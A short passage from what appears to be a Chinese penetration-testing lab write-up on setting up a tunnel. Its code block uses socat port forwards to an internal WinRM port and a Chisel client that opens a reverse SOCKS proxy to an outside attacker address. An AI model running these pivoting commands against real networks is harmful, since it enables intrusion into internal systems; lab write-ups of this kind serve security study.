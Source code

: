 [![](assets/1699929055-342b84cc617782ac02ea928d01de3d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104235-4d5c3a68-81ce-1.png)

## 隧道搭建

上传 Chisel，然后搭建隧道。

[![](assets/1699929055-81f988c6deb293405ac58be0b0dc7d5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104249-55d0a940-81ce-1.png)

```plain
./socat tcp-listen:60218,reuseaddr,fork tcp:192.168.122.228:5985 &
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
./chisel_1.9.1_linux_amd64 client 10.10.14.39:8001 R:socks
./socat tcp-listen:55555,reuseaddr,fork tcp:192.168.122.228:5985
socat tcp-listen:5985,reuseaddr,fork tcp:10.10.16.5:55555
```

